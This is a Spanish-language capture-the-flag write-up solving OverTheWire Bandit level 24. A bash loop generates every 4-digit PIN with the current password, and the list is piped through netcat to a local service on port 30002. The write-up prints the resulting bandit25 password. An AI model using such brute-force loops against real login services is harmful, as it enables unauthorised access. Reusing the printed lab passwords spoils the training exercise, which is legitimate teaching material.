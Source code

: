 ### Resolviendo Nivel 24

Para el PIN code de 4 dígitos hay 10 opciones para cada dígito (0 al 9) y 4 dígitos en total:

Combinaciones posibles = 10^4 = 10,000

Inicio 0000 -–❯ 9999 Fin

- Creamos un directorio temporal con permisos "chmod o+w" y dentro un script con permisos "777" que contenga lo siguiente:

```shell
#!/bin/bash

for i in {0000..9999}; do 
       echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done
```
- El script va iterar a través de la secuencia de números de "0000" a "9999" y si el PIN code es correcto va a imprimir la contraseña de bandit24.

**Método 1**

Los ataques de fuerza bruta generalmente se hacen a través de un diccionario entonces redirigimos el script a uno:

```shell
bandit24@bandit:/tmp/tmp.2UANuQNZor$ ./fuerza_bruta.sh > diccionario.txt
...
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9994
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9995
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9996
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9997
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9998
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9999
```

- Ahora ejecutamos toda esa data al puerto 30002 por netcat y si no quieres ver los errores puedes usar grep -v -E para que no muestre dos palabras en especifico:

```shell
cat diccionario.txt | nc localhost 30002 | grep -v -E "Wrong|Please"
```
_

**Método 2**

```shell
bandit24@bandit:/tmp/tmp.nogmGeDiv6$ ./fuerza_bruta.sh -v | nc localhost 30002 | grep -v -E "Wrong|Please" 
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```

---
